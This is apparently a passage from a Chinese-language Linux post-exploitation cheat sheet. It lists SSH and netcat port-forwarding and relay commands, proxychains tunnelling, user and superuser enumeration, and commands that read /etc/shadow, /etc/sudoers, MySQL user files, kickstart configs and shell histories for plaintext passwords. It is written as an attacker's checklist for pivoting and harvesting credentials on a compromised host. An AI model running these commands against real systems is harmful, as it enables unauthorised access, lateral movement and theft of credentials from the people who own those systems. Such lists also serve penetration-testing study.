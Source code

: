 ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
注意：mknod backpipe p; nc -l -p [远程端口]backpipe

mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe # Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe # Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe # Proxy monitor (Port 80 to 8080)
可以使用隧道吗？在本地远程发送命令

ssh -D 127.0.0.1:9050 -N [username]@[ip] proxychains ifconfig
机密信息和用户
你是谁？谁登录？谁已经登录？那里还有谁？谁能做什么？
id

who

w

last

cat /etc/passwd | cut -d: -f1 # List of users

grep -v -E “^#” /etc/passwd | awk -F: ‘$3 == 0 { print $1}’ # List of super users

awk -F: ‘($3 == “0”) {print}’ /etc/passwd # List of super users

cat /etc/sudoers

sudo -l

可以找到哪些敏感文件？

cat /etc/passwd

cat /etc/group

cat /etc/shadow

ls -alh /var/mail/

home/root目录有什么“有用”的地方吗？如果可以访问

ls -ahlR /root/

ls -ahlR /home/

里面有密码吗？脚本，数据库，配置文件还是日志文件？密码的默认路径和位置

cat /var/apache2/config.inc

cat /var/lib/MySQL/mysql/user.MYD

cat /root/anaconda-ks.cfg

用户正在做什么？是否有纯文本密码？他们在编辑什么？

cat ~/.bash_history

cat ~/.nano_history

cat ~/.atftp_history

